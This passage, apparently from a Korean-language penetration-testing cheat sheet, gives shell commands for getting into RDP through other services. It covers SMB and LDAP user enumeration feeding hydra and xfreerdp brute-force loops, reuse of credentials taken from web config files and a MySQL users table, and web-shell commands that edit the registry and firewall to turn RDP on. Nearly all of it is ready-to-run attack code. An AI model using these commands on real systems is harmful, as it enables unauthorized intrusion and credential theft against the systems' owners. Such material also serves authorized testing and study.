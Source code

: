 
## 🔗 다른 서비스와 연계

### 🗂️ SMB/RPC와 연계

```bash
# SMB에서 수집한 사용자로 RDP 접근
smbclient -L //{IP} -N | grep "Disk" | cut -d' ' -f1 > shares.txt
# SMB 사용자 열거 후 RDP 브루트포스
enum4linux {IP} | grep "user:" | cut -d[ -f2 | cut -d] -f1 > rdp_users.txt
hydra -L rdp_users.txt -P passwords.txt rdp://{IP}
```

### 📧 Active Directory와 연계

```bash
# LDAP에서 수집한 도메인 사용자로 RDP 접근
ldapsearch -x -h {IP} -b "DC=domain,DC=com" "(objectClass=user)" sAMAccountName | grep sAMAccountName | cut -d: -f2 > domain_users.txt

# 도메인 사용자로 RDP 브루트포스
while read user; do
    echo "Trying domain user: $user"
    xfreerdp /u:{DOMAIN}\\$user /p:password /v:{IP} +auth-only
done < domain_users.txt
```

### 🌐 웹 애플리케이션과 연계

```bash
# 웹 애플리케이션에서 발견한 크레덴셜로 RDP 시도
# config.php, web.config 등에서 발견한 계정 정보 활용
xfreerdp /u:{WEB_USER} /p:{WEB_PASS} /v:{IP}

# 웹쉘을 통해 RDP 활성화
# 웹쉘에서 실행:
# reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
# netsh firewall set service remotedesktop enable
```

### 🗄️ 데이터베이스와 연계

```bash
# MSSQL/MySQL에서 수집한 크레덴셜로 RDP 시도
# 데이터베이스에서 발견한 사용자 테이블 정보 활용
mysql -h {IP} -u root -p -e "SELECT username, password FROM users;" > db_creds.txt

# 수집한 크레덴셜로 RDP 시도
while IFS=',' read -r user pass; do
    xfreerdp /u:$user /p:$pass /v:{IP} +auth-only
done < db_creds.txt
```

---